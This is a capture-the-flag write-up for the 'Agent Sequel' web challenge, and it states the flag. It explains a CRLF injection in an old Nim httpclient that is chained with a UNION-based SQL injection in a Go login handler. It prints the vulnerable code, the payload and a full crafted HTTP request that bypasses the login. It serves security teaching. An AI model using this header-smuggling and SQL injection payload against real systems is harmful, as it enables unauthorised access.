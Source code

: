 ![img](../../assets/banner.png)

<img src="../../assets/cyberhax.png" style="margin-left: 20px; zoom: 80%;" align=left />
<font size="10">Agent Sequel</font>

9<sup>th</sup> February 2024

​Prepared By: Lean & FROST8ytes (modified)

​Challenge Author(s): Lean & FROST8ytes (modified)

​Difficulty: <font color=green>~~Easy~~ Extreme</font>

Flag: `Cyberhax{CRLF_3s_qu3_3l_1nj3ct10n}`

## Synopsis

- The challenge involves a user login web application written in Golang and Nim.

## Description

Welcome, Special *Agent*!

The key for your mission is hidden somewhere in the portal. Please _log in_ to verify your identity. If you forget your credentials, find your way to *bypass* it ;)

We wish you good luck on your mission.

Flag example: `Cyberhax{3x4mp13_f14g_h3r3}`

Disclaimer: No bruteforce is needed.


## Skills Required

- Basic understanding of Golang
- Basic understanding of Nim
- Basic understanding of the HTTP protocol
- Basic understanding of SQL
- Experience in searching for known vulnurabilities

## Skills Learned

- CRLF injection
- SQL injection login bypass

## Application Overview

![img](./assets/overview.png)

### Nim's httpclient CRLF Injection Vulnerability

The `main.nim` file contains a piece of code in the `routes` section that checks for SQL injection:

```nim
proc containsSqlInjection(input: string): bool =
  for c in input:
    let ordC = ord(c)
    if not ((ordC >= ord('a') and ordC <= ord('z')) or
            (ordC >= ord('A') and ordC <= ord('Z')) or
            (ordC >= ord('0') and ordC <= ord('9'))):
      return true
  return false
```

The `containsSqlInjection` procedure checks for suspicious characters that could indicate an SQL injection attack. However, it can be bypassed.

The vulnerability lies in the fact that the code uses `decodeUrl` to decode the user agent header, but it does not properly validate or sanitize the decoded value. This allows an attacker to inject CRLF (Carriage Return Line Feed) characters into the user agent header and bypass the SQL injection check.

```nim

routes:
  post "/user":
    let username = @"username"
    let password = @"password"

    if containsSqlInjection(username) or containsSqlInjection(password):
      resp msgjson("Malicious input detected")

    let userAgent = decodeUrl(request.headers["user-agent"])

    let jsonData = %*{
      "username": username,
      "password": password
    }

    let jsonStr = $jsonData

    let client = newHttpClient(userAgent)
    client.headers = newHttpHeaders({"Content-Type": "application/json"})

    let response = client.request(userApi & "/login", httpMethod = HttpPost, body = jsonStr)

    if response.code != Http200:
      resp msgjson(response.body.strip())
       
    resp msgjson(readFile("/flag.txt"))
```

Nims standard http library suffers from CRLF injection as of version <=1.2.6 [https://consensys.io/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/](https://consensys.io/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/)

We can verify that the challenge is vulnerable by looking at the `Dockerfile`, at line 22 `nim 1.2.4` is installed.

```
RUN choosenim update 1.2.4
```

To exploit this vulnerability, we can modify the user agent header in the HTTP POST request to include a CRLF sequence followed by a payload that will bypass the SQL injection check.

### SQL Injection

The `main.go` file implements a Golang server that handles the `/login` route. It also checks the user agent to ensure it matches one of the allowed user agents.

However, there is a vulnerability in the way the SQL query is constructed. The code concatenates the user input directly into the SQL query string, which allows an attacker to perform an SQL injection attack. This vulnerability can be found in the following lines of code:

```go
row := db.QueryRow("SELECT * FROM users WHERE username='" + user.Username + "';")
```

To exploit this vulnerability, we can use the Nim CRLF injection vulnerability to bypass the user agent check and inject a payload that contains an SQL injection attack.

By performing these two steps, we can exploit the vulnerabilities in both Nim and Golang to retrieve the flag.

```nim
let payload = """{"username":"' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test"}"""
```

By injecting this payload into the user agent header, the SQL injection check will be bypassed and the code will execute the following query:

```sql
SELECT * FROM users WHERE username='' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq' AND password='test';
```

This query will return a fake user with arbitraty an password hash that matches the one we provide in the request.

Also a dummy username and password are added with the exact character length of the CRLF payload in order to exactly match the Content-Length of the request thus overwriting the original one with the injected content.

```
POST http://<challenge URL>/user
User-Agent: ChromeBot/9.5%0D%0A%0D%0A{"username":"' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test"}
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
Connection: keep-alive
Content-Length: 110
Content-Type: application/x-www-form-urlencoded

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&password=aaaa
```
